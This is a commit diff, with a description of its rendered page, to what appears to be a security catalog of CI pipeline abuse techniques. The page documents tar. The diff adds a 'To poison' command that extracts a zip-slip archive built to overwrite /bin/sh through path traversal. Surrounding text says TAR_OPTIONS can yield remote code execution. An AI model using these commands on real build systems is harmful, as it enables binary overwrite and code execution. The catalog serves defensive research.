

Before and after one commit to boostsecurityio/lotp, a Jekyll site: the page built from _tool/tar.md, in a window 1280 px wide, cut to the strip 0-991 px from the top of the page. Shown: the whole strip, without its empty margins (158-1121 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that; grey boxes are pictures that could not be loaded.

Commit message:
add example of exploit

````diff
--- a/_tool/tar.md
+++ b/_tool/tar.md
@@ -20,6 +20,11 @@
 tar cPf zipslip.tar ../../../../../../bin/sh
 ```
 
+To poison:
+```
+tar xPf zipslip.tar
+```
+
 ## Environnement variable
 
 `tar` prepend **TAR_OPTIONS** env variable to every call. See [Using tar Options](https://www.gnu.org/software/tar/manual/html_section/using-tar-options.html). If the environment variable of a CI can be poison, **TAR_OPTIONS** can lead to RCE via:
````
